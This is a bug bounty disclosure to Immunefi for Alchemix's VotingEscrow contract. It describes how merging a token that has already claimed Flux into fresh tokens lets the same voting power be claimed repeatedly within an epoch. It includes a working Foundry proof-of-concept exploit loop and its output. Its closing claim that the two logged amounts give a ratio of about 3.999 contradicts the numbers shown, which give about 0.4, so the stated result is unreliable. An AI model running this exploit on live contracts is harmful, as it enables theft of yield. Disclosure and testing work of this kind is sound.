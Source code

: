 
# Merging tokens allows multiple Flux accruals within an epoch

Submitted on May 20th 2024 at 10:37:06 UTC by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31488

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

A token that has claimed Flux in the current epoch can be merged with a token that has not yet claimed Flux. This allows the already claimed token to transfer its Flux and reuse its voting power through the non-voted token. An attacker can exploit this by repeatedly merging voted tokens with fresh, non-claimed tokens to perpetually claim Flux using the same initial voting power. This allows an attacker to accrue unlimited Flux instantly.

## Vulnerability Details

Every token is allowed to accrue Flux once per epoch. The amount of claimable Flux is calculated in the `claimableFlux()` function, which multiplies the current voting power of the token by `fluxPerVeALCX`.

In the `VotingEscrow` contract, the `merge()` function allows a user to combine the voting power of token `from` and token  `to`, with the `from` token ultimately burned while the `to` token continues with the combined voting power. Nothing prevents someone from claiming Flux with the `from` token, transferring its voting power to a fresh `to` token, and claiming Flux again. This will double count the underlying voting power and allow claiming multiple times in an epoch. 

## Impact Details

An attacker can repeat the accrual of their Flux multiple times in an epoch using the same underlying voting power. This allows for an infinite mint of Flux.

## References
See the PoC below.


## Proof of Concept

I have created the following test file and added it to the `tests/` directory:


```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract UnlimitedAccrueFluxBug is BaseTest {

    constructor() {
        setupContracts(block.timestamp);
    }

    uint256 constant NUM_LOOPS = 5;

    function testUnlimitedAccrueFluxBug() public {
        vm.startPrank(admin);

        uint256[] memory tokenIds = new uint256[](NUM_LOOPS);
        for (uint256 i; i < NUM_LOOPS; ++i) {
            if (i == 0) tokenIds[i] = createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
            else tokenIds[i] = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        }

        uint256 expectedClaimableFlux;
        for (uint256 i; i < NUM_LOOPS; ++i) {
            expectedClaimableFlux += veALCX.claimableFlux(tokenIds[i]);
        }

        for (uint256 i = 1; i < NUM_LOOPS; ++i) {
            uint256 prev = tokenIds[i-1];
            uint256 next = tokenIds[i];

            voter.reset(prev);
            flux.claimFlux(prev, flux.getUnclaimedFlux(prev));
            veALCX.merge(prev, next);
        }

        console.log("Expected claimable FLUX:", expectedClaimableFlux);
        console.log("Actual FLUX claimed:", flux.balanceOf(admin));

        vm.stopPrank();
    }

}
```

Running the command `forge test -vvv --match-test testUnlimitedAccrueFluxBug --rpc-url $ETH_RPC_URL` gives the following result:

```
[PASS] testUnlimitedAccrueFluxBug() (gas: 5019008)
Logs:
  Expected claimable FLUX: 98583512563800063892800
  Actual FLUX claimed: 39432419229826226642800
```


Since `39432419229826226642800 / 98583512563800063892800` is approximately `3.999`, this specific example shows that the Flux from `tokenIds[0]` can be quadruple counted by using 4 fresh token ids. 
